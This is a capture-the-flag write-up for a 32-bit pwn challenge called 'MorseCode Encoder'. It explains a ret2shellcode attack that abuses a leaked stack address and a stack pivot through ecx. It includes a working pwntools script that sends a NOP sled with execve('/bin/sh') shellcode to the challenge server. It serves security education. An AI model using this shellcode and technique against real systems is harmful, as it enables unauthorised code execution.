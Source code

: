 ## Pwn/MorseCode Encoder

### Initial Analysis

![image](https://github.com/user-attachments/assets/75fea0e5-d9df-44c0-a4ff-e240702dae63)

All of the security protections have been turned off (except ASLR of course).

![image](https://github.com/user-attachments/assets/630985d6-ce73-4b4a-b719-ad06f6062481)

When running the binary, we can see that it leaks out the address of our buffer, which is located in the stack memory region. The challenge is screaming ret2shellcode since we are given the address of the buffer and NX (No eXecute) protection is turned off. NX is a protection which prevents execution of shellcode in the stack. So, the basic idea is to inject shellcode into the buffer and overwrite the saved return address to point to our shellcode.

![image](https://github.com/user-attachments/assets/b1ceda87-4725-4f2f-8790-e51fc736bb5b)

However, when you overwrite the values which are popped into ecx, ebx and ebp, it will affect where the return goes to due to `lea esp, [ecx-0x4]`. So, we need to control the value of ecx since it will be moved into esp and control our return address.

![image](https://github.com/user-attachments/assets/0c379971-a400-413b-97bc-604b0818d413)

Just 12 bytes below our input, there is a pointer to our buffer. So, that will be our target. Now, we just need a shellcode. You can use msfvenom, shellcraft or find it online. I used shellcode from https://shell-storm.org/shellcode/files/shellcode-811.html

### Solve Script

```py
#!/usr/bin/python
from pwn import *
import warnings
import time

warnings.filterwarnings("ignore",category=BytesWarning)

exe = context.binary = ELF('./morse-converter')
libc = exe.libc

host = "morsecode-encoder.ihack24.capturextheflag.io"
port = 1337

gdb_script = '''
b *main+141
c
'''

r = lambda x: p.recv(x)
rl = lambda: p.recvline(keepends=False)
ru = lambda x: p.recvuntil(x, drop=True)
cl = lambda: p.clean(timeout=1)
s = lambda x: p.send(x)
sa = lambda x, y: p.sendafter(x, y)
sl = lambda x: p.sendline(x)
sla = lambda x, y: p.sendlineafter(x, y)
ia = lambda: p.interactive()
li = lambda s: log.info(s)
ls = lambda s: log.success(s)

def debug():
  gdb.attach(p)
  p.interactive()

# p = exe.process()
p = remote(host,port)
# p = gdb.debug('./morse-converter', gdbscript = gdb_script)

offset = 1024

sc = b"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"

ru(b"address: ")
leak = int(r(10), 16)
print(hex(leak))
tar = leak - 0x10
print(hex(tar))

payload = sc.rjust(1024, b"\x90")
payload += p32(tar+8) * 10

print(payload)

sla(b"Enter]: ", payload)

p.interactive()
```
